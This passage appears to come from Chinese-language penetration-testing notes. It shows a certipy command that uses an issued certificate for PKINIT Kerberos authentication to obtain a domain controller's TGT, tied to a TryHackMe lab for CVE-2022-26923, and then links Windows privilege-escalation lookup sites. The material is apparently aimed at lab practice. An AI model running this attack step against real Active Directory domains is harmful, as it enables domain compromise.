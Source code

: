 通过颁发的证书对KDC进行PKINIT Kerberos身份验证，并获取域控制器的TGT票据

```
certipy auth -pfx xxx.pfx -username DC-1\$ -doamin hack.com -dc-ip dc-1.hack.com
```

或许你希望尝试现成的靶场：https://tryhackme.com/room/cve202226923

## windows提权速查平台

https://i.hacking8.com/tiquan

https://blog.neargle.com/win-powerup-exp-index/
